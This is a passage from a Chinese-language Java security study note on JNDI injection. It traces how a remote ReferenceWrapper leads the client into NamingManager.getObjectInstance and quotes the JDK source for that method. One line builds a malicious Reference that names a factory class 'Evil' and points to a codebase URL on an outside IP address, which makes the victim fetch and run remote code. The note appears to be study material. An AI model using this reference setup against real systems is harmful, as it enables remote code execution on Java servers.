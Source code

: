 我们的远程对象是`ReferenceWrapper`类的对象，它`implements RemoteReference`了，所以会调用`getReference()`，获取`Reference`对象，也就是我们在`Server`构造的对象：

```java
Reference feng = new Reference("1","Evil","http://121.5.169.223:39777/");
```

![image-20210901194656891]([Java安全]JNDI注入学习.assets/image-20210901194656891.png)



进入`NamingManager.getObjectInstance`：

```java
    public static Object
        getObjectInstance(Object refInfo, Name name, Context nameCtx,
                          Hashtable<?,?> environment)
        throws Exception
    {

        ObjectFactory factory;

        // Use builder if installed
        ObjectFactoryBuilder builder = getObjectFactoryBuilder();
        if (builder != null) {
            // builder must return non-null factory
            factory = builder.createObjectFactory(refInfo, environment);
            return factory.getObjectInstance(refInfo, name, nameCtx,
                environment);
        }

        // Use reference if possible
        Reference ref = null;
        if (refInfo instanceof Reference) {
            ref = (Reference) refInfo;
        } else if (refInfo instanceof Referenceable) {
            ref = ((Referenceable)(refInfo)).getReference();
        }

        Object answer;

        if (ref != null) {
            String f = ref.getFactoryClassName();
            if (f != null) {
                // if reference identifies a factory, use exclusively

                factory = getObjectFactoryFromReference(ref, f);
                if (factory != null) {
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
```


